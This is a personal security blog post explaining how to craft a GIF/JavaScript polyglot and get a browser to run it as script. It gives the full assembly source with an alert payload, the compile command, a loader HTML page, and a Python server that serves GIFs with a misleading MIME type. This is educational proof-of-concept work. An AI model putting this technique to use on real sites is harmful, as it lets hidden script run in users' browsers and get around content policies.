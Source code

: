 ```yaml
---
title:  "Abusing gifs for evil"
categories:
  - tech
tags:
  - security
  - ops
  - web

author: Bren Briggs

excerpt: "Deliver JS payloads inside a gif!"

---
```


### The backstory

Recently I saw a feature on a product I work on where we allowed hotlinking to arbitrary gifs without pulling them in, mangling, and then saving for our own use. Right away I thought, "Well this isn't wise" and set off to find ways to abuse it. The easiest and most obvious was to link to an image and then swap it out for a less savoury one later. Kid stuff, right? Let's do some real damage.

After proving that I could swap out images with ease from a server I controlled, I started looking for ways to embed executable into the image, which is how I stumbled upon this idea of _polyglots_. In this context, a polyglot is something that is valid code in two or more languages. For our use case, we want a gif/javascript polyglot. 

### Getting down to business

As always, research starts with Google and IRC. I had a feeling that something like this had been done before, so I set about finding papers, posts, or anything really that pointed me to what I was looking for. In short order, I found a couple of good resources that explained the attack and how to craft a malicious gif. 

The basic idea is to use ASM and manually assemble a GIF, filling in the required header and fields. By setting the width to a specific value of `10799`, when the gif is rendered as a script, this is interpreted as a `/*` in ASCII, which is the opening of a Javascript comment block. When interpreted as an img, the browser simply renders the image that wide. The content and fields of the gif are contained between the opening and closing comment blocks of the JS portions, and the comment is closed at the end of the gif. The JS to execute is tacked onto the end of the GIF and is executed when interpreted as a script. I have included a link to the original gist at the bottom of this post, but here is an example of one such gif:

```
; a hand-made GIF containing valid JavaScript code
; abusing header to start a JavaScript comment

; inspired by Saumil Shah's Deadly Pixels presentation

; Ange Albertini, BSD Licence 2013

; yamal gifjs.asm -o img.gif

WIDTH equ 10799 ; equivalent to 2f2a, which is '/*' in ASCII, thus starting an opening comment

HEIGTH equ 100 ; just to make it easier to spot

db 'GIF89a'
    dw WIDTH, HEIGTH

db 0 ; GCT
    db -1 ;  background color
    db 0 ; default aspect ratio
    ;db 0fch, 0feh, 0fch
    ;times COLORS db 0, 0, 0

; no need of Graphic Control Extension
 ; db 21h, 0f9h
 ; db GCESIZE ; size
 ; gce_start:
 ;     db 0 ; transparent background
 ;     dw 0 ; delay for anim
 ;     db 0 ; other transparent
 ; GCESIZE equ $ - gce_start
 ;     db 0 ; end of GCE

db 02ch ; Image descriptor
    dw 0, 0 ; NW corner
    dw WIDTH, HEIGTH ; w/h of image
    db 0    ; color table

db 2 ; lzw size

;db DATASIZE
;data_start:
;    db 00, 01, 04, 04
;    DATASIZE equ $ - data_start

db 0
db 3bh ; GIF terminator

; end of the GIF

db '*/'  ; closing the comment
db '=1;' ; creating a fake use of that GIF89a string

db 'alert("haxx");'
```
As you can see, we close the comment block at the end and add our own Javascript. When interpreted as a script, the parser skips over all the GIF-related stuff and just worries about the JS at the end.

### Compiling

As a product of my own stupidity and failure to follow directions, I mistakenly assumed for a bit that the recommended compiler, [yasm](http://yasm.tortall.net/), was Windows-only. After far too long fighting YASM and C++ runtime trying to get the stupid thing to work, I noticed that I could just pull the source and compile it on my local machine. Sweet! After that, compiling this was a breeze:

```
$ yasm ./gifjs.asm -o img.gif
```

### Execution and Exploitation

Unfortunately, here's where things get a little sad. In order to actually get this to work, I had to do it under some contrived conditions that, while not impossible, are unlikely (in my opinion). 

  1. You have to have the gif interpreted with `<script>` tags as opposed to `<img>` tags
  2. You have to send a misleading MIME type

These two conditions mean that it's unlikely you will find something in the wild which you can abuse. You're better off using a server you already control and setting up explotation conditions favorable to yourself.

To get this to run, I wrote the following tiny bit of HTML:

```html
This is a test
<img src="img.gif">
<script src="img.gif"></script>
```

As you can see, it just throws up a bit of test, displays the malicious GIF as an image, and then again as a script. If you pop open your browser and go to the file in your local filesystem (say, `/tmp/test.html` for instace), the gif will pop the alert box for you. Fun, right?

Now try uploading it to an image hosting site such as Imgur and sourcing it from there and you'll notice something interesting happens. Or rather, doesn't happen. If you try to run the above HTML but using a direct link to a .gif on imgur instead, you'll notice that your browser's console likely displays an error saying something to this effect:

```
Refused to execute script from 'https://i.imgur.com/IXGn93f.gif' because its MIME type ('image/gif') is not executable.
```

_Detour: what the heck is a MIME type?_

MIME types aren't really anything more complex than a label that gets stuck onto some data to tell the receiving end what type of data it is. This lets the client know how it can handle the data. This is just a label and is built on trust. What do we do with trust? We abuse it. Back to your regularly scheduled programming.

This brings me back to point #2: You need to send a misleading MIME type to convince the browser to execute your file. We already know that Imgur won't allow us to do that, so how do we do it? In my case, I used a simple bit of python.

```python
import SimpleHTTPServer
import SocketServer

PORT = 8000

class Handler(SimpleHTTPServer.SimpleHTTPRequestHandler):
    pass

Handler.extensions_map['.gif'] = 'application/octet-stream'

httpd = SocketServer.TCPServer(("", PORT), Handler)

print "serving at port", PORT
httpd.serve_forever()
```

This uses SimpleHTTPServer, which is already in Python's standard libraries, to serve the contents of the local directory. By default, SimpleHTTPServer will try and give things appropriate MIME types based on extensions, so we add a smal change to tell it to interpret `.gif` extensions as `application/octect-stream`, which browsers will execute. If I named that html file as `index.html`, I can now hit `http://127.0.0.1:8000/index.html` and get our malicious gif served back with a MIME type that it is okay with executing. The result? We run the JS compiled into the GIF.

### Conclusion

This is not a new or novel attack. This is also not something I feel is widely exploitable, but it is fairly sneaky and exposes a few areas of trust that we can abuse. 

  1. Browsers do little in the way of actual heuristics when trying to determine file type. At best, they will look at the extension and magic byte to try and determine if the file is what it claims to be.
  2. This is a valid GIF and a valid bit of JS, so heuristics would have to be more sophisticated to catch something like this.
  3. Browsers trust MIME types perhaps a bit too much.
  4. This would be easy to exploit and hard to detect using a site you control, since users wouldn't be able to see the JS that is being executed. Then again, they might see that `something.js` was being executed but might not be able to GET the file to see what is in it. Obfuscation level: 3/10.

It's interesting. It's fun. It's simple.

_References_
https://ajinabraham.com/blog/bypassing-content-security-policy-with-a-jsgif-polyglot
https://gist.githubusercontent.com/ajinabraham/f2a057fb1930f94886a3/raw/62b8e455ad62c42222de9059cd0d20c1a79e2cdb/gifjs.asm
http://blog.portswigger.net/2016/12/bypassing-csp-using-polyglot-jpegs.html


